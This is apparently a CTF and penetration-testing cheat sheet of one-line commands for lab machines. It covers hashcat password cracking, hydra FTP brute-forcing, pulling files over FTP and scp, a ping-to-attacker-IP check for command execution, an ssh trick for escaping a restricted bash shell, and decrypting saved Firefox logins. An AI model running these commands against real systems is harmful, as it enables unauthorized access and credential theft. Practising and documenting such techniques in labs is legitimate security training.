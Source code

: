 # Miscellaneous

hashcat -a 0 -m 500 hash /root/Downloads/rockyou.txt --force

scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt

wget -m ftp://ftpuser:givemefiles777@10.10.94.48

python -m pyftpdlib 21\
\
hydra -e nsr -l elly ftp://192.168.249.148\


Turn passwd file into userlist to use in bruteforce:\
cut -d ":" -f 1 passwd > userlist\


{% embed url="https://github.com/PinkDraconian/CTF-bash-tools" %}

### TCPDUMP LISTENER

Start a tcpdump listener on your local machine.

**If using your own machine with the VPN connection, use:**

* `sudo tcpdump ip proto \\icmp -i tun0`

**If using the Ethernet, use:**

* `sudo tcpdump ip proto \\icmp -i eth0`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

**ping \<ATTACKER IP> -c 4**

****

If we know the  ssh credentials of the user who is part of rbash shell, then you can use the following command along ssh to break the jail and bypass the rbash by accessing proper bash shell.

`ssh seppuku@192.168.53.90 -t "bash --noprofile"`

### Python Library Hijacking

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/" %}

### Exploiting Wildcard&#x20;

{% embed url="https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" %}

#### Mozilla **History Decrypt**

`.mozilla` directory, which holds firefox’s history of it’s user can be used to get credentials.\
`logins.json` **** holds the encrypted login credentials.

{% embed url="https://github.com/unode/firefox_decrypt" %}

```
Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '{Redacted}'
```

****
